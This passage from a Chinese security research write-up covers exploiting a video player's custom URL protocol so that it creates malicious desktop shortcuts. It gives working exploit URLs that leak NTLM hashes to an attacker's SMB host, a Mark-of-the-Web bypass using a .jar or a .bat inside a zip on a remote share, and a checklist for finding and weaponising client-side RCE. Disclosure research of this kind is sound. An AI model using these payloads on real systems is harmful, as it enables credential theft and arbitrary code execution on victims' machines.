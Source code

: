 ![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028772674438.jpg)

当我们双击这个快捷方式时，就会调用浏览器打开`http://www.baidu.com`。

接着我们发现只要`url`参数值为`xxx://xxx.xxx/`的格式即可，那么我们尝试将`url`参数值修改为`file://172.16.176.176/netntlm`，也就变成这样：`xxplayer://action.cmd/createshortcut_url?url=file://172.16.176.176/netntlm&name=123`，在机器上`responder`监听一下，当打开快捷方式时收到了NTLM Hash：

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756130536051.jpg)

除了获取NTLM Hash，我们还可以在Ubuntu上开一个SMB服务，然后将`url`参数设为使用`\\172.16.176.176\share\Test.exe`，使用快捷方式打开共享文件，发现确实可以打开EXE文件，但是会有文件信任的安全警告（Mark-of-the-Web）。

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756160973381.jpg)

这里可以通过`jar`文件形式去绕过，打包一个打开计算器的Jar包放在共享目录下，然后将`url`参数设为使用`\\172.16.176.176\share\1.jar`。

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756162884409.jpg)

访问`xxplayer://action.cmd/createshortcut_url?url=\\172.16.176.225\share\1.jar&name=123`，创建快捷方式，打开快捷方式，执行Jar包启动计算器，这样我们就实现了1 Click执行任意命令。

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028772455266.jpg)

使用远程Jar包的方式来达到任意命令执行还是有局限性，如果目标机器不存在Java环境就无法执行，因此在对文件信任机制的研究发现在`smb`共享文件中打开`zip`压缩包内的`bat`文件，不会有任何弹窗提示直接执行`bat`文件内容。

因此我们可以在共享文件夹中创建`1.zip`，放入内容为`calc`的`1.bat`文件。

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756704688552.jpg)


将`url`参数值设为`\\172.16.176.225\share\1.zip\1.bat`，然后访问`xxplayer://action.cmd/createshortcut_url?url=\\172.16.176.225\share\1.zip\1.bat&name=123`创建桌面快捷方式，打开快捷方式即可执行`bat`文件，最终达到不需要任何依赖的情况下执行任意命令。

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028772348064.jpg)

## 总结

简单总结一下以上两类客户端的攻击入口、RCE风险和影响面。

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028779762348.jpg)

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028780061810.jpg)

关于客户端本地开启的网络协议问题，我总结出如下几步可以快速的进行漏洞发现:

1. 找到客户端启动的本地网络服务（TCP、UDP），这个可以用火绒剑或者CMD的方式查看；
2. 有本地监听的情况下，找到对应的程序以及加载的DLL，通过IDA根据端口号找到监听的点，如果是C/C++的程序一般找bind这个函数就能快速定位到；
3. 向上回溯找调用链，并根据网络服务的返回结果，例如HTTP访问会有一段字符串或者响应头的一些字符串，定位到代码处理逻辑；
4. 如果逻辑对应上了，那就接着找程序的导入表是否存在敏感的函数，例如：CreateProcess、WinExec、ShellExec，如果存在则可以向上回溯看看是否与网络服务监听点有联系；
5. 当条件都满足的时候就想尽办法，通过断点调试等操作，找传参或数据传输格式，看看可控内容是否可达敏感的函数处；
6. 根据代码逻辑构造PoC触发漏洞，并尝试武器化利用。

## 致谢

在文章的最后，我要感谢公司部门领导和同事对本议题的贡献和帮助（以下排名不分先后），感谢字节跳动安全中心对于本次沙龙的筹办和策划。

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028782795487.jpg)